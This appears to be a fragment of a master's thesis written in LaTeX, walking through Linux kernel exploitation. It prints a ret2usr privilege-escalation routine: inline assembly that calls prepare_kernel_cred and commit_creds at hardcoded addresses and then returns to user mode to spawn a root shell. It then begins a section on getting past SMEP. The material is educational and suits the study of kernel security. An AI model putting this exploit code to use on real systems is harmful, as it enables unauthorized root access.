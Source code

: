 \documentclass{masterthesis}
\newcommand{\refToSubSection}[1]{Subsection~\ref{subsect:#1}\xspace}
\begin{document}
With all these information, we can complete the code to gain root privileges, then come back to user-mode:
\begin{lstlisting}
unsigned long user_rip = (unsigned long)get_shell;
void escalate_privs(void){
    __asm__(
        ".intel_syntax noprefix;"
        "movabs RAX, 0xffffffff814c67f0;" //prepare_kernel_cred
        "xor RDI, RDI;"
      "call RAX; mov RDI, RAX;"
      "movabs RAX, 0xffffffff814c6410;" //commit_creds
      "call RAX;"
        "swapgs;"
        "mov r15, user_ss;"
        "push r15;"
        "mov r15, user_sp;"
        "push r15;"
        "mov r15, user_rflags;"
        "push r15;"
        "mov r15, user_cs;"
        "push r15;"
        "mov r15, user_rip;"
        "push r15;"
        "iretq;"
        ".att_syntax;"
    );
}
\end{lstlisting}
\section{Adding SMEP}
\label{sect:addSmep}
In \refToSubSection{get privileges} we used our piece of code which is saved in the userspace. Using \emph{SMEP}, as \refToSubSection{SMAP}, user pages are marked as not executable while in kernel mode.
There are two possible scenarios:
\begin{itemize}
\item Write an arbitrary amount of data to the kernel stack.
\item Overwrite up to the return address on the kernel stack.
\end{itemize}
Let us start by investigating the first one.
\end{document}
